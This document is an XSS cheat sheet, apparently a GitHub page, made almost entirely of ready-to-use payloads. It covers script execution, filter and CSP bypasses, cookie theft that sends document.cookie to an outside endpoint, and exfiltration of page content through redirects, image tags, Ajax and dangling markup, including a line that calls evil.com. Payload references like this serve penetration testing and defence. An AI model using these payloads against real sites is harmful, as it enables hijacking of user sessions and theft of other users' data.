# XSS Cheat Sheet
## Execute code
### XSS without filters
```html
<script>alert()</script>
```
### Bypass script tags
```html
<img src="" onerror="alert()">
<body onload="alert()">
```
### Get cookies from another user
```html
<script>document.location.replace("http://endpoint?cookie="+document.cookie)</script>
```
Without redirection:
```html
<script>document.write('<img src="http://endpoint?cookie='+document.cookie+'"')</script>
```
## Data exfiltration
### Exfiltrate current page data
```html
<script>document.location.replace("http://endpoint?data="+document.body.innerText)</script>
```
#### Dangling Markup:
```html
<img src="http://endpoint?data=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
```

Bypass Chrome Restrictions:
```html
<table background='//endpoint?data=
```
### Using Ajax
```html
<script>
    var getData = new XMLHttpRequest();
    getData.open("GET", "http://page-where-data-is", false);
    getData.send();
    var sendData = new XMLHttpRequest();
    sendData.open("GET", "http://endpoint?data="+getData.responseText, false);
    sendData.send();
</script>
```
## Using JSONP endpoint to abuse CSP whitelist
```html
<script src="http://jsonp-endpoint-which-is-in-whitelist?callback=alert()"></script>
```
## Bypass common filters
You can use .concat() function instead of +
```html
<script>document.location.replace("http://endpoint?cookie=".concat(document.cookie))</script>
```

To bypass common xss tags filters like ``<script>``, ``<img>``, ``<a>``, ``<body>``...
```html
<button onfocus="alert()" autofocus>
<details ontoggle="alert()" open>payload</details>
<svg><animate onbegin="alert()" attributeName=x dur=1s>
<svg><animate onend="alert()" attributeName=x dur=1s>
<svg><animate onrepeat="alert()" attributeName=x dur=1s repeatCount=2 />
<svg><set onbegin="alert()" attributename=x dur=1s>
```
